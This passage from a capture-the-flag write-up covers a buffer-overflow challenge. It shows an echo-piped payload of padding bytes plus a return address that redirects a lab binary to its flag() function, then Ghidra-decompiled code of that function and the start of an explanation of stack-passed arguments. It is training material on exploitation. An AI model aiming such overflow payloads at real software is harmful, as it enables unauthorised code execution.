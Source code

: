 now the remaining issue is that you can't just print these hex characters to the ascci and feed theme to the main programm , as some of theme renders oddly in terminal and break it sometimes so we may just pip them directly like :

```shell
╭─kali at kali in ~/Desktop/test
╰─○ echo -ne '\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xe2\x91\x04\x08' | ./vuln                
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```
and upon investigation if we use ghidra we can check that we indeed hit the flag funtion :

_flag()_

```c
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```
but it looks like we've dodged the main code to output the flag , the main reason maybe the fact that we haven't supplied any parameteres in order to enter the IF checks blocks of code .

now how can we do that?? 

In many calling conventions arguments are pushed onto the stack in reverse order. This means the last argument is pushed first, and the first argument is pushed last.
and upon the start of a function call a stack frame is created and is represented this way :
let's take flag() as an example
